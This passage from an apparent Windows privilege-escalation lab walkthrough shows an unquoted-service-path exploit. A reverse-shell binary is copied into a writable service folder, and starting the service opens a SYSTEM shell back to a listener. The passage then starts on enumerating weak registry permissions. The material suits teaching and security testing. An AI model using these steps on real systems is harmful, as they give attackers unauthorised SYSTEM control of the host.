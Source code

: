 ```powershell
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

The Permissions for *C:\Program Files\Unquoted Path Service\\* have RW(read write) for BUILTIN\Users.  This means if we create a binary named *Common.exe* at *C:\Program Files\Unquoted Path Service\\* when the service *unquotedsvc* starts it will execute our payload.
4. Create exploit file and start service:
> copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"   
> net start unquotedsvc
```powershell
C:\PrivEsc\tools>copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
C:\PrivEsc\tools>net start unquotedsvc
net start unquotedsvc
[*] Command shell session 7 opened (192.168.1.164:53 -> 192.168.1.174:52396) at 2021-10-22 15:07:50 -0400
C:\PrivEsc\tools>sessions 7
[*] Backgrounding session 6...
[*] Starting interaction with 7...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Attacking Weak Registry Permissions   
The Windows registry stores entries for each service. If the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.   

1. Find registry key that you can modify:
>accesschk.exe -uvwqk HKLM\SYSTEM\CurrentControlSet\Services\ | select-string -Pattern INTERACTIVE -Context 6,2    
>Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl    
```powershell
PS C:\PrivEsc\tools> .\accesschk.exe -uvwqk HKLM\SYSTEM\CurrentControlSet\Services\ | select-string -Pattern INTERACTIVE -Context 6,2
.\accesschk.exe -uvwqk HKLM\SYSTEM\CurrentControlSet\Services\ | select-string -Pattern INTERACTIVE -Context 6,2

  HKLM\SYSTEM\CurrentControlSet\Services\regsvc
    Medium Mandatory Level (Default) [No-Write-Up]
    RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
    RW BUILTIN\Administrators
        KEY_ALL_ACCESS
>   RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
  HKLM\SYSTEM\CurrentControlSet\Services\RemoteAccess

PS C:\PrivEsc\tools> Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
```